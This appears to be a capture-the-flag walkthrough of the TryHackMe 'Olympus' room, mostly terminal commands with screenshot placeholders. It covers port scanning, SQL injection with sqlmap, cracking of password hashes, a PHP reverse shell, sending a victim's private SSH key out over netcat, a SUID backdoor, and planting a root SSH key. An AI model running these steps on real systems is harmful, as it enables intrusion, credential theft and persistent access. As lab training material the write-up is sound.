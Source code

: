 # Olympus

**Room Link:** [https://tryhackme.com/room/olympusroom](https://tryhackme.com/room/olympusroom)



## Initial Scan

**Kali**

<pre><code><strong>nmap -A $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (17) (1).png" alt=""><figcaption></figcaption></figure>





## Scan all ports

**Kali**

<pre><code><strong>nmap -sV -sT -O -p 1-65535 $VICTIM
</strong></code></pre>

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

## TCP/80 - HTTP

**Kali**

```
gobuster dir -u olympus.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
dirb http://olympus.thm
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



















<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sqlmap -r req.txt --banner
```

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
sqlmap -r req.txt --tables
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>





**Kali**

```
sqlmap -r req.txt --dbms=mysql --dump
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
john --wordlist=/usr/share/wordlists/rockyou.txt hashes.txt 
```

Rerun because VM crashed



**Browser**&#x20;

```
Username: prometheus
Password: summertime
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>









<figure><img src="../../.gitbook/assets/image (2) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Browser**&#x20;

```
Username: prometheus
Password: summertime
```

<figure><img src="../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (3) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Initial Shell

**Kali**

```
git clone https://github.com/pentestmonkey/php-reverse-shell.git
cp php-reverse-shell/php-reverse-shell.php .
subl php-reverse-shell.php 
```

<figure><img src="../../.gitbook/assets/image (7) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



**Kali**

```
gobuster -U prometheus -P summertime dir -u chat.olympus.thm -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,html,txt
```





This was there before when we ran sqlmap

<figure><img src="../../.gitbook/assets/image (6) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (5) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

I deleted the old results of sqlmap to force it to rerun again as it was just giving the old results

**Kali**

```
rm -rf /root/.sqlmap/output/olympus.thm/
sqlmap -r req.txt --dbms=mysql --dump -T chats -D olympus
```

<figure><img src="../../.gitbook/assets/image (8) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
nc -lvnp
```

<figure><img src="../../.gitbook/assets/image (9) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (10) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

Get autocomplete

```
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl + Z
stty raw -echo;fg
```



**Victim**

```
cd /home/zeus
cat zeus.txt 
```

<figure><img src="../../.gitbook/assets/image (11) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
find / -perm -u=s -type f 2> /dev/null
```

<figure><img src="../../.gitbook/assets/image (12) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
ls -lah /usr/bin/cputils
/usr/bin/cputils
```

<figure><img src="../../.gitbook/assets/image (13) (1) (1).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (14) (1) (1).png" alt=""><figcaption></figcaption></figure>





## Netcat

**Kali(receiving)**

```
nc -l -p 1234 > id_rsa
```

**Victim(sending)**

```
cd /tmp
nc -w 3 $KALI 1234 < id_rsa
```



**Kali**

```
chmod 600 id_rsa
/opt/john/ssh2john.py id_rsa > id_john.txt
john --wordlist=/usr/share/wordlists/rockyou.txt id_john.txt 
```

<figure><img src="../../.gitbook/assets/image (15) (1) (1).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh -i id_rsa zeus@$VICTIM
Password: snowflake
```

<figure><img src="../../.gitbook/assets/image (16) (1) (1).png" alt=""><figcaption></figcaption></figure>



## Privilege Escalation

**Victim**

```
cd /var/www/html/0aB44fdS3eDnLkpsz3deGv8TttR4sc/
cat VIGQFQFMYOST.php
```

<figure><img src="../../.gitbook/assets/image (694).png" alt=""><figcaption></figcaption></figure>



**Victim**

```
/lib/defended/libc.so.99;uname -a; w; $suid_bd
whoami
```

<figure><img src="../../.gitbook/assets/image (695).png" alt=""><figcaption></figcaption></figure>









## Secret Flag

**Kali**

```
ssh-keygen -t rsa
cat /root/epic.pub
```

<figure><img src="../../.gitbook/assets/image (696).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
vi /root/.ssh/authorized_keys
```

<figure><img src="../../.gitbook/assets/image (697).png" alt=""><figcaption></figcaption></figure>

**Kali**

```
ssh -i epic root@VICTIM
```

<figure><img src="../../.gitbook/assets/image (698).png" alt=""><figcaption></figcaption></figure>

**Victim**

```
grep -r  "flag{" /
```

<figure><img src="../../.gitbook/assets/image (699).png" alt=""><figcaption></figcaption></figure>





